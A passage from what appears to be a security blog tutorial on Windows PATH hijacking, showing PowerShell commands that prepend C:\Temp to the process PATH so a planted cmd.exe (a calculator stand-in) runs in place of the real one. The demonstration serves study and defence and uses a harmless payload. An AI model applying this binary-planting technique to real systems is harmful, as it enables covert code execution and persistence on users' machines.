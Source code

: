 Change the `$PATH` environment variable of the current process:

```powershell
PS C:\> $env:Path = "C:\Temp;$env:Path"
PS C:\> ($env:Path).split(";")
C:\Temp
C:\Windows\system32
C:\Windows
C:\Windows\System32\Wbem
C:\Windows\System32\WindowsPowerShell\v1.0\
C:\Windows\System32\OpenSSH\
C:\Program Files\dotnet\
```

> Note: Remember this is the PATH environment variable of our current process, if this executable was executed by a Service, Task Scheduler, or something else. We would need to use the system %PATH% environment variable instead, depending on the configuration.

Review which `cmd.exe` will be loaded first:

```powershell
PS C:\> cd \
PS C:\> where.exe cmd.exe
C:\Temp\cmd.exe
C:\Windows\System32\cmd.exe
```

Because the directory "`C:\Temp`" is before "`C:\Windows\system32\`" in the PATH environment variable, the next time the user runs "cmd.exe", our calculator will run, instead of the legitimate one in the system32 folder.

```powershell
cmd.exe
```

As expected the calculator was spawned:

{{< image src="/images/posts/calculator.png" caption="Calculator " src_s="/images/posts/calculator.png" src_l="/images/posts/calculator.png" >}}

Now, let's try it with the same binary (cmd.exe):

```powershell
PS C:\> copy C:\Windows\System32\cmd.exe C:\Temp\cmd.exe
```

Execute the cmd.exe again:

```powershell
PS C:\> cmd.exe
The system cannot find message text for message number 0x2350 in the message file for Application.

(c) Microsoft Corporation. All rights reserved.
Not enough memory resources are available to process this command.
```

Using Process Hacker as Administrator we can see the process tree:

{{< image src="/images/posts/process-hacker-process-tree.png" caption="Process Hacker Process Tree " src_s="/images/posts/process-hacker-process-tree.png" src_l="/images/posts/process-hacker-process-tree.png" >}}
